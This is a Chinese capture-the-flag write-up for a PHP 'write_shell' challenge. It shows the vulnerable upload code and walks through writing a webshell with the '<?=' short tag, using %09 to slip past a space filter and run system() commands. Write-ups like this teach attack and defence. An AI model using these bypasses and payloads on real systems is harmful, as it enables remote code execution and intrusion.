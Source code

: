 # \[红明谷CTF 2021]write\_shell

## \[红明谷CTF 2021]write\_shell

## 考点

* `<?`写shell
* %09绕过空格

## wp

给了代码

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
function check($input){
    if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        // if(preg_match("/'| |_|=|php/",$input)){
        die('hacker!!!');
    }else{
        return $input;
    }
}

function waf($input){
  if(is_array($input)){
      foreach($input as $key=>$output){
          $input[$key] = waf($output);
      }
  }else{
      $input = check($input);
  }
}

$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
if(!file_exists($dir)){
    mkdir($dir);
}
switch($_GET["action"] ?? "") {
    case 'pwd':
        echo $dir;
        break;
    case 'upload':
        $data = $_GET["data"] ?? "";
        waf($data);
        file_put_contents("$dir" . "index.php", $data);
}
?>
```

给了沙盒路径，访问`?action=pwd`就可以看到

![](<../.gitbook/assets/image (6) (1) (1) (1).png>)

然后`?action=upload&data=`是将data写入到沙盒中，访问`sandbox/cc551ab005b2e60fbdc88de809b2c4b1/index.php`就可以看到

要写shell有三种方式，如下

* \<?php
* \<?=要开启short\_open\_tag
* \<script language="php">在PHP7之后就不能用了

在返回头看到PHP版本为7.0，且在check函数中过滤了很多字符

```
/'| |_|php|;|~|\\^|\\+|eval|{|}/i
```

这样就只剩下了`<?=`这种方式，请求`?action=upload&data=%3c%3f%3d123456%3f%3e`，再访问沙盒的index.php，是可以输出123456，过滤了`~`，不能取反绕过。然后构造正常的shell就可以

```
?action=upload&data=<?=system("ls")?>
// 过滤了空格，使用%09绕过
?action=upload&data=<?=system("ls%09/")?>
```

![](<../.gitbook/assets/image (25) (1) (1).png>)

## 小结

1. 这里尝试了无参RCE，发现个很奇怪的东西，在去读请求头的时候，出来个http，`?action=upload&data=<?=end(getallheaders())?>`，不论怎么改请求头都是这个http
